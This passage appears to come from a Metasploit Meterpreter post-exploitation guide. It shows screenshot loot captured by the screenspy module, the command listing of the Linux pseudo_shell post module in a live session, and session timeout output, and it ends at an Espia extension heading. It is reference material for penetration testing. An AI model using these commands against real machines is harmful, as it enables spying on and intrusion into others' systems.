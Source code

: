```
10.0.2.15           screenspy.screenshot  screenshot.5.jpg  image/jpg  Screenshot  /root/.msf4/loot/20220515200153_default_10.0.2.15_screenspy.screen_495403.jpg
```

#### 2.1.7 - Pseudo Shell

```
meterpreter > run post/linux/manage/pseudo_shell
user@debian:/home/user$ ?

Commands Help
==============

        Command             Description
        -------             -----------
        ?                   Show current help
        cat                 Show file contents
        cd                  Change current directory
        clear               Clear screen
        exit                Exit the Pseudo-shell
        groups              Show list of groups
        help                Show current help
        hostname            Show current Hostname
        interfaces          Show list of network interfaces
        ips                 Show list of current IP addresses
        isroot?             Show if current user has root permisions
        ls                  List files and folders in a directory
        macs                Show list of MAC addresses
        path                Show current directories included in $PATH enviroment variable
        pwd                 Show current PATH
        shell               Show current SHELL
        tcp_ports           Show list of listen TCP ports
        udp_ports           Show list of listen UDP ports
        users               Show list of users
        whoami              Show current user

user@debian:/home/user$
```

#### 2.1.8 - Miscellaneous

```
meterpreter > get_timeouts
Session Expiry  : @ 2022-05-21 17:23:58
Comm Timeout    : 300 seconds
Retry Total Time: 3600 seconds
Retry Wait Time : 10 seconds
```

### 2.2 - Extensions

#### 2.2.1 - Espia
